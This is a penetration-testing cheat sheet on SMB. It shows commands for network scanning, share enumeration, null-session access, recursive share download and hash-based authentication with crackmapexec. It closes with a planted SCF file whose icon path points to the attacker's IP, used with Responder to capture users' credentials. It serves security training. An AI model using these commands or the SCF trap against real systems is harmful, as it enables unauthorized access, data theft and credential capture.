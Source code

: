 ```yaml
---
title: PORT 139/tcp, 445/tcp - SMB
category: Services
order: 7
---
```


SMB stands for Server Message Block. It’s a protocol for sharing resources like files, printers, in general any resource which should be retreivable or made available by the server.

# Introduction

It primarily runs on port 445 or port 139 depending on the server . It is actually natively available in windows, so windows users don’t need to configure anything extra as such besides basic setting up. In Linux however ,it is a little different. To make it work for Linux, you need to install a samba server because Linux natively does not use SMB protocol.

# Scanning the network

## Nmap

We can do a port scanner selecting the NetBIOS and SMB ports:

```
nmap -v -p 139,445 -oG smb.nmap <ip-addr>/<mask>
grep "Up" smb.nmap | cut -d " " -f 2
```

## Nbtscan

We can scan for NetBIOS Service around the network in order to collect additional NetBIOS information like server names:

```
sudo nbtscan -r <ip-addr>/<mask>
```

# Enumeration a target

## Nmap scripts

`Nmap` contains many useful NSE scripts that can be used to discover and enumerate SMB services. All these scripts are in the folder `/usr/share/nmap/scripts/`

```
ls -l /usr/share/nmap/scripts/smb*
```

You can launch the script with the `--script` parameter:

```
nmap -v -p 139,445 --script=<script> <ip-addr>
```

## Enum4linux

Enum4linux is an script that automatize some tasks:

```
enum4linux -a [-u <user> -p <pass>"] <ip-addr>
```

## Shared Folders

There are some available `nmap` scripts that could help us in that work:

```
nmap -p 139,445 -sV --script smb-\* <ip-addr>
```

`smbmap` will shows us available shares and permissions:

```
smbmap -H <ip-addr>
#Example Output
[+] Guest session       IP: ip-addr:445   Name: ip-addr
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (kenobi server (Samba, Ubuntu))
```

And we can connect to these shares with `smbclient`:

```
smbclient //<ip-addr>/<share>                # Guest Session
smbclient //<ip-addr>/<share> -U "" -N       # Null Session
smbclient //<ip-addr>/<share> -U <user>      # Authenticated Session

# Older versions
smbclient //<ip-addr>/<share> --option='client min protocol=NT1'
```

To download recursively all the share you can use `smbget`:

```
smbget -R smb://<ip-addr>/<share>
smbget -R smb://<ip-addr>/<share> -U <user>
```

Also you could enumerate shares with `crackmapexec`:

```
crackmapexec smb <ip-addr> -u '' -p '' --shares #Null user
crackmapexec smb <ip-addr> -u 'username' -p 'password' --shares #Guest user
crackmapexec smb <ip-addr> -u 'username' -H '<HASH>' --shares #Guest user
```

Finally you can mount the share on your kali.

```
sudo mount -t cifs -o vers=2.0,username=guest,password=guest //<ip-addr>/<share>
```

# Shell Command Files (SCF) attack

It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

```
[Shell]
Command=2
IconFile=\\<OUR.IP>\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Adding the **@** symbol in front of the filename will place the file on the top of the share drive.

```
Filename: @attack.scf
```

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user, so we can capture it with Responder.

```
responder -I eth0
```

* [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

# References:

* [https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b](https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b)
* [https://book.hacktricks.xyz/pentesting/pentesting-smb#port-139](https://book.hacktricks.xyz/pentesting/pentesting-smb#port-139)
* [http://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html](http://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html)
